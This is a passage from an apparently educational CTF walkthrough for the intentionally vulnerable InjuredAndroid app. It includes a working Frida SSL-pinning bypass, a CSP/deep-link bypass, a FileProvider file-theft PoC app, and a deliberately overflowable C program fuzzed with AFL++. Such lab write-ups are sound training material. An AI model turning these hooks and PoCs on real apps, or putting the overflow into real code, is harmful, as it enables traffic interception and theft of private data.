// auth-bypass.dart
TextFormField(
  key: usernameKey,
  validator: (username) {
    if (username.isEmpty) {
      return 'Please enter a username.';
    }
    // Vulnerability: Routing occurs during username validation
    Navigator.push(
      context,
      MaterialPageRoute(
        builder: (context) => MyHomePage(test: usernameKey.currentState.value),
      ),
    );
    return null;
  },
)
```
Since Navigator.push fires as soon as the username field passes validation:
Enter any string into the Username field.
Leave the Password field completely blank.
 Click Sign up.
**The username validator executes, immediately routing the user to MyHomePage without checking password validity.**

16.  **Flag 15- Assembly & Native JNI Reverse Engineering**
===

This challenge is about reverse engineering native C or C++ libraries running via JNI.

When you open the app screen you see this byte array:`[58 40 42] `

Inspecting the Java Code

Opening AssemblyActivity in JADX shows two main things:

First the native library gets loaded inside a static block:
```
static {
    System.loadLibrary("native-lib");
}
```
Second inside the constructor the app calls`stringFromJNI()`>execute code inside the compiled binary.

Extract the APK and pull the binary file from this path:
`lib/x86_64/libnative-lib.so`

Load it into Ghidra or IDA Pro and locate this exported JNI function symbol:
`Java_b3nac_injuredandroid_AssemblyActivity_stringFromJNI`

Inside`Ghidra`the decompiled code performs these steps:
Takes a initial string "win"
XORs each character against a key stored at memory address`DAT_0012c1d8`

The XOR Math
The XOR operation runs character by character:
```
'w'  -- > 0x4D = 58
'i'  -- > 0x41 = 40
'n'  -- > 0x44 = 42

This generates [58 40 42] which matches the values displayed on the application screen.
for i,j in zip([0x4d,0x41,0x44], [ord(i) for i in "win"]):
    print((i^j), end=" ")

Therefore the original unencrypted string is our flag.
so U can get the flag :`win` ya hackers 

```
17. **Flag 16 - CSP Bypass**
===

This challenge covers Content Security Policy (CSP) bypass mechanisms within an Android WebView / deep-link component, combined with analyzing native/Java runtime logic.

    Note: As mentioned, the backend remote endpoint ([http://b3nac.com/contentsecuritypolicyflag.html](http://b3nac.com/contentsecuritypolicyflag.html)) no longer serves the active dynamic payload intended for this CTF. However, we will cover both the intended web/intent exploitation vector and the runtime hook bypass (via Frida).

**Analyzing CSPBypassActivity**

Opening CSPBypassActivity in JADX reveals how incoming intents are handled:

```
Intent intent = getIntent();
Uri data = intent.getData();
if (d.s.d.g.a("http", str2) == true) goto L15;
// ... Checks if scheme is HTTPS and blocks it
if (d.s.d.g.a(str4, "http") == false) goto L23;
L();

```
If an incoming intent uses the http scheme, it passes the restriction check and invokes L().
The L() & M() Logic
```
private final void L() {
    StringBuilder sb = new StringBuilder();
    sb.append("https://");
    // Appends host and path from original Uri
    sb.append(data != null ? data.getHost() : null);
    sb.append(data2 != null ? data2.getPath() : null);
    
    Intent intent3 = new Intent("android.intent.action.VIEW");
    intent3.setData(Uri.parse(sb.toString()));
    M();
    startActivity(intent3);
}

private final void M() {
    // Decodes encrypted endpoint configuration
    m.a(this).a(new b.a.a.v.l(0, k.a(k.b("kOC6ZrdMXEnfIKWihcBNLTWIhDiINUfSQyYrFsTpEBGZy1KmfPMTwtba8CXa/WVAVoJ1ACvJMd8f/MF97/7UaeNCQvC9OD4lZ/vQN6LmpBU=")), ...));
}
```

The app takes an HTTP deep-link, rewrites it internally to`HTTPS,`triggers M(), and issues an encrypted network request.

**Inspecting the Android Manifest**

Checking AndroidManifest.xml gives the expected scheme, host, and path patterns for the target Intent Filter:
```
<activity 
    android:name="b3nac.injuredandroid.CSPBypassActivity"
    android:label="@string/title_activity_c_s_p_bypass"
    android:theme="@style/AppTheme.NoActionBar">
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="http" android:host="b3nac.com" android:pathPattern="/.*/"/>
        <data android:scheme="https" android:host="b3nac.com" android:pathPattern="/.*/"/>
    </intent-filter>
</activity>
```
To trigger this activity via adb, issue an HTTP deep-link to the target host:
```
adb shell am start -a android.intent.action.VIEW -d "http://b3nac.com/aaaa/"
```
**Decrypting the Target Endpoint**
The encrypted string passed inside M() is encrypted using DES in ECB mode. Decrypting it with Python exposes the intended endpoint URL:
```
from base64 import b64decode
from Crypto.Cipher import DES

key = b"{Captur3Th1sToo}"[:8]
ciphertext = b64decode("kOC6ZrdMXEnfIKWihcBNLTWIhDiINUfSQyYrFsTpEBGZy1KmfPMTwtba8CXa/WVAVoJ1ACvJMd8f/MF97/7UaeNCQvC9OD4lZ/vQN6LmpBU=")

cipher = DES.new(key, DES.MODE_ECB)
plaintext = cipher.decrypt(ciphertext)

# Remove PKCS7 padding
pad_len = plaintext[-1]
if all(p == pad_len for p in plaintext[-pad_len:]):
    plaintext = plaintext[:-pad_len]

print(plaintext.decode("utf-8"))
```
Output: `https://b3nac.com/contentsecuritypolicyflag.html`

**Intended Attack Vector (CSP Bypass)**
The app blocks incoming https:// intents directly, but permits http:// intents.

An attacker serves a malicious page or uses a vector that redirects/bypasses the scheme check:
```
<html>
  <!-- Blocked directly -->
  <a href="https://b3nac.com/anything/">Blocked</a>
  <!-- Bypasses intent filter check, forcing scheme transformation -->
  <a href="http://b3nac.com/anything/">CSP Bypass</a>
</html>
```
The server at [b3nac.com/contentsecuritypolicyflag.html] was originally meant to return the flag dynamically via custom headers/response body under controlled CSP conditions.

**Runtime Interception (Frida)**
Since the remote infrastructure no longer returns the live challenge flag, we can inspect the runtime validation check using Frida.

The comparison method d.s.d.g.a handles string validation when submitting an arbitrary value into the flag input field.

Frida Script`payload_16.js`

```
Java.perform(function() {
    let g = Java.use("d.s.d.g");
    
    // Hook string comparison method
    g["a"].implementation = function (obj1, obj2) {
        console.log(`[+] String Comparison Hooked:`);
        console.log(`    Input 1 : ${obj1}`);
        console.log(`    Input 2 : ${obj2}`);
        
        let result = this["a"](obj1, obj2);
        return result;
    };
});
```
Let's the exec Start the application with the instrumentation script:
```
frida -U -f b3nac.injuredandroid -l payload_16.js 
```
**Trigger the deep link via ADB:**
```
adb shell am start -a android.intent.action.VIEW -d "http://b3nac.com/aaaa/"
```
```
[+] String Comparison Hooked:
    Input 1 : aaaa
    Input 2 : [Nice_Work]
```

The hooked comparison function prints the hardcoded/expected secret string directly from memory.

18. **Flag 17 - Flutter SSL Pinning Bypass**
===

This challenge covers SSL Pinning (Certificate Pinning) within a hybrid Flutter/Android application. It demonstrates how Flutter applications communicate with native Android code using Flutter MethodChannels and how to hook native Kotlin plugins via Frida to force certificate validation to succeed.

What is SSL Pinning?

SSL Pinning (Certificate Pinning) ensures that a mobile application strictly accepts a predetermined SSL certificate or public key SHA fingerprint when establishing an HTTPS connection to its backend servers.

 Default Behavior: The app trusts any certificate signed by a root CA in the Android System Trust Store.

 Pinned Behavior: The app ignores system-wide custom CAs (such as Burp Suite or OWASP ZAP CA certificates) and actively checks the server’s certificate fingerprint against hardcoded expected values.

 Impact: Prevents Man-In-The-Middle (MITM) attacks by breaking network interception attempts unless the pinning implementation itself is dynamically hooked or patched.

 **Analyzing the Flutter Architecture & MethodChannel**

In FlagSeventeenActivity, the app loads an embedded Flutter module. Unlike traditional Java/Kotlin Android apps where networking is easily visible in decompiled DEX code, Flutter compiles core logic into native machine code (libapp.so).

However, third-party Flutter packages requiring native device features use MethodChannels to communicate between Dart and Kotlin/Java.
Dart Source Code (plugin_ssl_bypass.dart)

When the user taps the Check button on the UI form, the submit() function executes:
```
void submit() {
  if (_formKey.currentState.validate()) {
    _formKey.currentState.save();
    this.check(
      _data.serverURL, 
      _data.allowedSHAFingerprint, 
      _data.sha, 
      _data.headerHttp, 
      _data.timeout
    );
  }
}

check(String url, String fingerprint, SHA sha, Map<String, String> headerHttp, int timeout) async {
  List<String> allowedShA1FingerprintList = [];
  allowedShA1FingerprintList.add(fingerprint);

  try {
    // Invoke external Flutter plugin check
    String checkMsg = await SslPinningPlugin.check(
      serverURL: url,
      headerHttp: headerHttp,
      sha: sha,
      allowedSHAFingerprints: allowedShA1FingerprintList,
      timeout: timeout
    );
    
    // On success, proceed to issue the GET request
    _makeGetRequest();
  } catch (e) {
    // Show error snackbar
  }
}
```
The Plugin Bridge`(ssl_pinning_plugin.dart)`
The open-source plugin [ssl_pinning_plugin][https://github.com/macif-dev/ssl_pinning_plugin] defines a MethodChannel:

```
class SslPinningPlugin {
  static const MethodChannel _channel = const MethodChannel('ssl_pinning_plugin');

  static Future<String> check({...}) async {
    final Map<String, dynamic> params = <String, dynamic>{
      "url": serverURL,
      "httpMethod": httpMethod.toString().split(".").last,
      "headers": headerHttp ?? {},
      "type": sha.toString().split(".").last,
      "fingerprints": allowedSHAFingerprints,
      "timeout": timeout
    };

    String resp = await _channel.invokeMethod('check', params);
    return resp;
  }
}
```
**Locating Native Kotlin Logic in JADX**

Since MethodChannel delegates the actual certificate comparison to the Android host, the native Kotlin code resides inside the DEX files generated during the build process.

Searching for ssl_pinning_plugin in JADX leads to the underlying plugin implementation class (e.g., b.d.a.a.a or com.macif.plugin.sslpinningplugin.SslPinningPlugin depending on obfuscation level):
```
public final boolean a(String str, List<String> list, Map<String, String> map, int i, String str2) {
    g.e(str, "serverURL");
    g.e(list, "allowedFingerprints");
    g.e(map, "httpHeaderArgs");
    g.e(str2, "type");
    
    // Obtains server fingerprint via HTTP/HTTPS handshake
    String serverFingerprint = d(str, i, map, str2);
    
    ArrayList arrayList = new ArrayList();
    for (String fp : list) {
        String upperCase = fp.toUpperCase();
        arrayList.add(new e("\\s").a(upperCase, ""));
    }
    
    // Checks if the target server fingerprint matches allowed list
    return arrayList.contains(serverFingerprint);
}
```
**Frida Bypass Scripts**

To bypass the SSL pinning validation check, we use Frida to hook the native Kotlin validation method and force it to always return true.
Method 1: Target Obfuscated Kotlin Plugin`Payload_17.js`
```
Java.perform(() => {
    // Hook the underlying plugin validation class
    let cls = Java.use("b.d.a.a.a");
    
    cls.a.overload(
        'java.lang.String',
        'java.util.List',
        'java.util.Map',
        'int',
        'java.lang.String'
    ).implementation = function (url, list, map, timeout, type) {
        console.log("[+] Intercepted SSL Pinning Check:");
        console.log("    URL        :", url);
        console.log("    Fingerprint:", list.toString());
        console.log("[+] Forcing SSL Pinning result to true.");
        return true; 
    };
});
```
**Execution & Verification**
Start InjuredAndroid with the Frida hook script :
frida -U -f b3nac.injuredandroid -l Payload_17.js --no-pause

**In InjuredAndroid, navigate to Flag Fourteen - Flutter XSS -> Flutter SSL Bypass**

Input arbitrary placeholder values into the UI:

    Server URL: [http://b3nac.com](http://b3nac.com)

    Fingerprint: AA:BB:CC:DD:EE:FF

Tap Check.

Frida intercepts the MethodChannel call, outputs the bypass log, and forces a successful match:

```
[+] Intercepted SSL Pinning Check:
    URL        : http://b3nac.com
    Fingerprint: [AA:BB:CC:DD:EE:FF]
[+] Forcing SSL Pinning result to true.

```
Get  the Flag

Once the SSL check succeeds, _makeGetRequest() triggers a GET request to http://b3nac.com/Epic_Awesomeness
intercepting this request with Burp Suite reveals the response body containing the challenge flag.
`Flag 17 - Epic_Awesomeness`

19. **Flag 18 - FileProvider Leak & Unauthorized File Access**
===
This challenge focuses on exploiting an insecure Android FileProvider configuration coupled with an exported Activity. By abusing URI permission grants `(FLAG_GRANT_READ_URI_PERMISSION)`, a rogue external application can trick the target app into granting access to private internal storage files (/data/data/b3nac.injuredandroid/files/).

**Manifest Analysis**
Examining AndroidManifest.xml reveals an exported activity (FlagEighteenActivity) alongside a configured FileProvider:
```
<activity
    android:name=".FlagEighteenActivity"
    android:exported="true"
    android:label="@string/title_activity_flag_eighteen"
    android:theme="@style/AppTheme.NoActionBar" />

<provider
    android:name="androidx.core.content.FileProvider"
    android:authorities="b3nac.injuredandroid.fileprovider"
    android:exported="false"
    android:grantUriPermissions="true">
    <meta-data
        android:name="android.support.FILE_PROVIDER_PATHS"
        android:resource="@xml/file_paths" />
</provider>
```
```
android:grantUriPermissions="true": Allows the provider to temporarily delegate read/write permissions for specific URIs when an intent includes grant flags.

b3nac.injuredandroid.fileprovider: The provider authority used to construct content:// URIs.

Exported Activity (FlagEighteenActivity): Acts as the permission-granting proxy when invoked with a tailored content:// URI.
```
Inspecting Provider Path Definitions

`Checking res/xml/file_paths.xml:`
```
<?xml version="1.0" encoding="utf-8"?>
<paths xmlns:android="http://schemas.android.com/apk/res/android">
    <files-path name="files" path="/" />
</paths>

```
The `<files-path name="files" path="/" /> `configuration maps directly to the application's internal private storage directory:
**/data/data/b3nac.injuredandroid/files/**

Populating Target Files (Prerequisite)

Before the target file (test) can be read, it must be created in the internal /files directory. The application handles this via asset extraction in `Flag 13 `**(Deep Link RCE)**
```
<a href="flag13://rce?combined=Treasure_Planet">OH SNAP!</a>
```
Triggering this deep link executes `copyAssets()`, copying the challenge assets into `/data/data/b3nac.injuredandroid/files/`

**Exploit Vector & PoC**
An `attacker` app can craft an `Intent` targeting `FlagEighteenActivity` with `FLAG_GRANT_READ_URI_PERMISSION` set. When FlagEighteenActivity processes the request and returns a result, the calling app receives read access to the requested `content:// URI`.

Java (`MainActivity.java`)
```
package b3nacinjured.pocformyohnocontentprovider;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.util.Log;
import androidx.appcompat.app.AppCompatActivity;
import org.apache.commons.io.IOUtils;
import java.io.IOException;
import java.util.Objects;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        
        Intent intent = new Intent();
        intent.setData(Uri.parse("content://b3nac.injuredandroid.fileprovider/files/test"));
        intent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
        intent.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagEighteenActivity");
        
        startActivityForResult(intent, 0);
    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

        try {
            String content = IOUtils.toString(
                Objects.requireNonNull(getContentResolver().openInputStream(
                    Objects.requireNonNull(data.getData())
                ))
            );
            Log.d("OHNO", content);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
Kotlin (`MainActivity.kt`):
```
package b3nacinjured.pocformyohnocontentprovider

import android.content.Intent
import android.net.Uri
import android.os.Bundle
import android.util.Log
import androidx.appcompat.app.AppCompatActivity
import org.apache.commons.io.IOUtils
import java.io.IOException
import java.util.Objects.requireNonNull

class MainActivity : AppCompatActivity() {

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)

        val intent = Intent().apply {
            data = Uri.parse("content://b3nac.injuredandroid.fileprovider/files/test")
            flags = Intent.FLAG_GRANT_READ_URI_PERMISSION
            setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagEighteenActivity")
        }
        startActivityForResult(intent, 0)
    }

    override fun onActivityResult(requestCode: Int, resultCode: Int, data: Intent?) {
        super.onActivityResult(requestCode, resultCode, data)
        try {
            val stream = data?.data?.let { contentResolver.openInputStream(it) }
            val content = IOUtils.toString(requireNonNull(stream))
            Log.d("OHNO", content)
        } catch (e: IOException) {
            e.printStackTrace()
        }
    }
}
```
so get flag 

 Run the PoC app and trigger the activity transition.

In `logcat`, filter by tag `OHNO`:
`D/OHNO: text.txt`
Inspecting the submit function comment in source code: `md5`
Computing the MD5 hash of text.txt:
`echo -n "text.txt" | md5sum` : **034d361a5942e67697d17534f37ed5a9**
----

**Note** on Execution: After the PoC launches `FlagEighteenActivity`, manually press the Back button to finish the activity. This triggers onActivityResult() in our PoC and prints the file content in logcat.


20. **Native Layer & Fuzzing**
===
Native Reversing: When dealing with compiled native libraries `(.so)` written in **C/C++** inside an APK, we drop them into Ghidra to isolate critical functions, trace JNI calls, and map out how the app talks to the native layer.

Coverage-Guided Fuzzing: To find deep memory corruption bugs like Buffer Overflows that could lead to Remote Code Execution (RCE), we set up AFL++ against our target code.
**Build Something Vulnerable and Fuzz it with AFL++** until to understand but u know im not perfect for that :) ya shapap
Instead of just talking theory, let's actually write a small piece of code that has a real, exploitable bug in it. We'll create a vulnerable C program that mimics a native library function, compile it with AFL++, and watch how the fuzzer automatically crashes it

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

// This is our vulnerable function: a stack buffer of 64 bytes
void vulnerable_native_parser(char *input_data) {
    char stack_buffer[64];
    
    // The Bug: strcpy doesn't check the size. If input > 64 bytes, it overflows the stack!
    strcpy(stack_buffer, input_data); 
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <input_file>\n", argv[0]);
        return 1;
    }

    // Open the file generated by AFL++
    FILE *f = fopen(argv[1], "rb");
    if (!f) {
        perror("Error opening file");
        return 1;
    }

    char buffer[256];
    int len = fread(buffer, 1, sizeof(buffer) - 1, f);
    buffer[len] = '\0';
    fclose(f);

    // Pass the input to our vulnerable parser
    vulnerable_native_parser(buffer);

    printf("Processed successfully!\n");
    return 0;
}
```
Running the Fuzzing 
**We need to compile our code using the instrumented AFL++ compiler so it can track code coverage in real-time**
```
afl-gcc -o vuln_binary vuln.c
```
Set Up Input and Output Directories
AFL++ needs a seed directory with a normal, safe file to start mutating from
```
mkdir input_dir
echo "A normal safe string input for testing" > input_dir/seed1.txt
mkdir output_dir
```
Kick Off AFL++
Now, let's run the fuzzer. The @@ symbol tells AFL++ where to pass its generated test files
**afl-fuzz -i input_dir -o output_dir -- ./vuln_binary @@**
As AFL++ runs, it mutates the input data, feeding longer and more chaotic strings into our binary  Once an input exceeds 64 bytes:

    The program hits a Segmentation Fault (SIGSEGV) because we just overwrote the stack return address.

    AFL++ catches this crash instantly and saves the crashing test case inside output_dir/default/crashes/.

    If we check that crash file, we'll see the exact payload that broke the binary—proving we have a live, exploitable Buffer Overflow ready for exp to try get **RCE** try it :) its so easy .

```
afl-fuzz -i input_dir -o output_dir -- ./vuln_binary @@

american fuzzy lop ++4.08c {default} (./vuln_binary) [fast]
----------------------------------------------------------------------------------------------------
  process timing                                     |  overall results
    run time : 0 days, 0 hrs, 0 min, 3 sec           |    cycles done : 230
    last new find : 0 days, 0 hrs, 0 min, 3 sec      |    corpus count : 3
    last saved crash : 0 days, 0 hrs, 0 min, 3 sec   |    saved crashes : 1
    last saved hang : none seen yet                  |    saved hangs : 0
----------------------------------------------------------------------------------------------------
  cycle progress                                     |  map coverage
    now processing : 2.364 (66.7%)                   |    map density : 26.67% / 40.00%
    runs timed out : 0 (0.00%)                       |    count coverage : 65.00 bits/tuple
----------------------------------------------------------------------------------------------------
  stage progress                                     |  findings in depth
    now trying : havoc                               |    favored items : 3 (100.00%)
    stage execs : 16/114 (14.04%)                    |    new edges on : 3 (100.00%)
    total execs : 198k                               |    total crashes : 6 (1 saved NANO_BOF)
    exec speed : 50.8k/sec                           |    total tmouts : 0 (0 saved)
----------------------------------------------------------------------------------------------------
  fuzzing strategy yields                            |  item geometry
    bit flips : disabled (default, enable with -D)   |    levels : 2
    byte flips : disabled (default, enable with -D)  |    pending : 0
    arithmetics : disabled (default, enable with -D) |    pend fav : 0
    known ints : disabled (default, enable with -D)  |    own finds : 2
    dictionary : n/a                                 |    imported : 0
    havoc/splice : 3/198k, 0/0                       |    stability : 100.00%
    py/custom/rq : unused, unused, unused, unused    |
    trim/eff : n/a, disabled                         |
----------------------------------------------------------------------------------------------------
  strategy : explore        [ Target: vuln_binary (Stack BOF) ]          state : active by NANO :-)
```

21. Finaly
========

**We covered the core domains of Android application penetration testing:**

    Android Architecture & IPC Security: Analyzed core components, Deep Links, Intent Redirection flaws, and FileProvider URI permission leaks.

    Static Analysis & Reverse Engineering: Decompiled Java/Kotlin code using JADX and reverse-engineered compiled native binaries (.so & Go binaries).

    Dynamic Analysis & Hooking: Executed runtime method hooking via Frida and bypassed SSL Pinning on Native and Flutter applications.

    Client-Side & Logic Exploitation: Exploited Stored XSS in WebViews, CSP/Scheme bypasses, Unicode Collision, and ACE/RCE vectors.

    Cloud & Local Storage Security**: Uncovered exposed Firebase Realtime DBs, AWS S3 bucket leaks, and insecure local SQLite/hash storage.

    0. Native Layer & Fuzzing basics Analyzed compiled native libraries (.so) using Ghidra, and set up AFL++ for Coverage-Guided Fuzzing to automatically uncover memory corruption bugs like Buffer Overflows (BOF) and evaluate them for Remote Code Execution


Mohem
=====

    
 مهم ونته بتذاكر وبتحل تحدي تحدي تفهم اي سبب حدوث الثغره و استغلالها و ازاي تترقع الثغره حلوه تترقع دي : _) كمان اه لازم تعرف الجافا اسكربت  والسي بلس بلس البيزكس بس  علي الاقل كفايه و الجافا علي  لما تشوف الكود تحلله وتعرف تقرء وازاي تتعامل مع اي مشكله تحصل معاك اهم حاجه تسرش تسرش تسرش مهم جدا بس كده
    
**يَا أَيُّهَا الَّذِينَ آمَنُوا اتَّقُوا اللَّهَ وَلْتَنظُرْ نَفْسٌ مَّا قَدَّمَتْ لِغَدٍ ۖ وَاتَّقُوا اللَّهَ ۚ إِنَّ اللَّهَ خَبِيرٌ بِمَا تَعْمَلُونَ**
=======

**وَاتَّقُوا يَوْمًا تُرْجَعُونَ فِيهِ إِلَى اللَّهِ ۖ ثُمَّ تُوَفَّىٰ كُلُّ نَفْسٍ مَّا كَسَبَتْ وَهُمْ لَا يُظْلَمُونَ**
===